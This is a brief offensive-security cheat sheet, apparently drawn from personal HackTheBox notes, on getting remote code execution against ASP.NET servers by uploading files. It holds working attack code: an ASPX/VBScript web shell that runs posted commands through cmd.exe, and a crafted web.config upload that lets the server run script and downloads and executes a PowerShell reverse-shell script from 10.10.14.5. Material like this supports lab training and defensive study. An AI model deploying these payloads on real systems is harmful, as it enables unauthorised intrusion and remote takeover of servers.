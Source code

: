 
- ASPX pages are the primary building blocks of a Windows ASP.NET application.
- These pages contain server-side code written in languages like C# or VB.NET within special <% %> tags.
- ASPX pages are processed on the server before being sent to the client's browser, allowing for dynamic content generation.
- The use of ASPX pages allows for the creation of interactive web applications with rich functionality.
- Windows ASPX provides a robust framework for building secure and scalable web applications.

# Remote Code Execution

An ASPX shell comes with Kali Linux.
## File Upload

### Guide

[HTB: Bounty | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#transferaspx--uploadedfiles)

1. Check the `web.config` file as it has settings on the configuration data for the web application
2. Code within the `web.config` can potentially be executed
3. Upload a modified `web.config` file

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```